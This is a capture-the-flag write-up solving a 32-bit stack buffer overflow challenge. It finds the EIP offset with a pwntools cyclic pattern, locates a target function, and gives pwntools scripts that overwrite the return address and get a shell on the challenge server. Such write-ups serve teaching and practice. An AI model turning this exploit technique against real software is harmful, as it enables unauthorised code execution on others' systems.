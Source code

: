 # Baby Buffer Overflow - 32bit
Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

## Solution
I could not run the pre-compiled program on my Ubuntu machine, so I re-compiled using the command in the source code. This changed the addresses, but it means that I can find the exploit.

First, I needed to determine the offset to `EIP` (instruction pointer). To do this, I generated a cyclic pattern:

```python
from pwn import cyclic

pattern = cyclic(100)
with open('pattern.bin', 'wb') as f:
    f.write(pattern)
```

Then I sent the pattern to the program using pwndbg:

```bash
gdb -q ./babybufov
(gdb) run < pattern.bin

> Program received signal SIGSEGV, Segmentation fault.
> 0x61616168 in ?? ()
```
`0x61616168` is the value of EIP, now we need to calculate the offset:

```python
from pwn import cyclic_find

eip_value = 0x61616168  # Value from EIP
offset = cyclic_find(eip_value)
print(offset)  # Output: 28
```

The offset is 28 bytes.

Now, I needed to find the address of the function "target", which is the function we need to reach:

`objdump -d babybufov | grep target`

Finally, I can craft an exploit to overwrite the return address to the one of `target`:

```python
from pwn import *

# Offset to EIP
offset = 28

# Address of the target function
target_address = 0x080491b6

# Craft the payload
payload = b'A' * offset
payload += p32(target_address)
```

This worked well on the binary that I compiled, but not on the remove server. I checked the `target` address for the original file using `objdump` again. The address was different: `0x080491f5`.

Then I make a new script with the address from the original file, and send it to the server:

```python
from pwn import *

context(arch='i386', os='linux', endian='little')

target_address = 0x080491f5  # New address

# Offset to EIP
offset_to_eip = 28  # Determined from previous analysis

# Construct the payload
payload = b'A' * offset_to_eip
payload += p32(target_address)  # Pack the address in little-endian format

# Connect to the remote server
io = remote('challenge.ctf.games', 32338)

# Receive until the prompt "Gimme some data!"
io.recvuntil(b'Gimme some data!\n')

io.sendline(payload)

io.interactive()
```

This gave me an interactive shell, which meant that I could do the following:

```bash
$ ls
babybufov
flag.txt
$ cat flag.txt
```
